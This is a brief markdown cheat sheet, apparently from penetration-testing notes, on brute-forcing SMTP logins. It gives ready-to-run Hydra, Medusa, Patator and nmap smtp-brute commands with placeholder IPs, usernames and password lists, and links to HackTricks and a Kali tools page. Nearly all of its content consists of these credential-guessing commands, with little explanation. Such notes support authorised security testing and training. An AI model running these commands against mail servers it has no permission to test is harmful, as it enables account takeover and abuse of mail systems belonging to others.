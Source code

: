 # SMTP

## 01 - Hydra

```
$ hydra -V -l <username> -P passwords.lst [-s <PORT>] <IP> smtp
```

## 02 - Medusa

```
$ medusa -M smtp -m AUTH:NTLM -h <IP> -U users.txt -p password

$ medusa -M smtp -m EHLO:world -h <IP> -U users.txt -p password
```

## 03 - Patator

TODO: Fill in this info

```
$ patator smtp_login
```

## 04 - Network Mapper

```
$ nmap -p 25 --script smtp-brute --script-args smtp-brute.auth=<LOGIN | PLAIN | CRAM-MD5 | DIGEST-MD5 | NTLM>

$ nmap -p 25 --script smtp-brute --script-args "smtp-brute.auth=LOGIN,userdb=users.lst,passdb=passwords.lst" <IP>
```

---
## References

### Hacktricks

- [Hacktricks: Brute Force SMTP](https://book.hacktricks.wiki/en/generic-hacking/brute-force.html)

### Penetration Testing Tools

- [Penetration Testing Tools: Medusa](https://en.kali.tools/?p=200)